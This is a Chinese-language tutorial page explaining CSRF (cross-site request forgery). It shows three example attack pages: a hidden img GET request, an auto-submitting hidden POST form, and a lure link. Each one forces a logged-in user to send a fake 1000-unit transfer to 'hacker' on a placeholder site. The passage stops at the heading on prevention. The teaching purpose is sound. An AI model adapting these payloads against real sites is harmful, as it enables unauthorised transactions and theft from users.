 ```yaml
---
title: CSRF攻击
categories:
 - Browser
tags:
 - CSRF
 - 跨站请求伪造
date: 2023-01-03
sidebar: 'auto'
---
```


## 前言
CSRF（Cross-site request forgery/跨站请求伪造）：
1. 引诱用户打开黑客的网站。
2. 在黑客的网站中利用用户的登录状态发起的跨站请求。

## CSRF攻击
跟XSS不同的是，CSRF攻击不需要将恶意代码注入用户的页面，利用的是服务器漏洞和用户的登录状态来实施攻击。当用户打开了黑客的页面后，常见的有三种方式实施CSRF攻击。

### 自动发起Get请求
```html
<!DOCTYPE html>
<html>
   <body>
      <h1>🎣网站</h1>
      <img src="https://mobs.fun/sendBTC?user=hacker&count=1000">
   </body>
</html>
```
这就是钓鱼网站的HTML，将转账接口隐藏在img标签中，浏览器认为这是图片资源，当页面加载，浏览器自动发起img资源请求，如果服务器没有对请求做处理判断，服务器认为这是一个正常的转账请求，财产就被转移了。

### 自动发起POST请求
```html
<!DOCTYPE html>
<html>
   <body>
      <h1>🎣网站</h1>
      <form id="hacker-form" action="https://mobs.fun/sendBTC" method="POST">
        <input type="hidden" name="user" value="hacker" />
        <input type="hidden" name="number" value="1000" />
      </form>
      <script>document.getElementById("hacker-form").submit();</script>
   </body>
</html>
```
有些服务器接口使用的POST方法的，所以黑客需要在钓鱼网站上伪造POST请求，当用户打开黑客的站点时自动提交POST请求。在钓鱼页面中构建了一个隐藏的表单，表单的内容就是转账接口，当用户打开站点后，该表单会被自动执行提交，这就自动实现跨站点POST数据提交。

### 引诱用户点击链接
诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。当用户登录了自己网站，点击该链接就会发送该伪造请求。
```html
<div>
  <img src="https://mobs.fun/you-know-what"/>
  <a href="https://mobs.fun/sendBTC?user=hacker&count=1000" traget="_blank">点击在线观看</a>
</div>
```

## 阻止CSRF攻击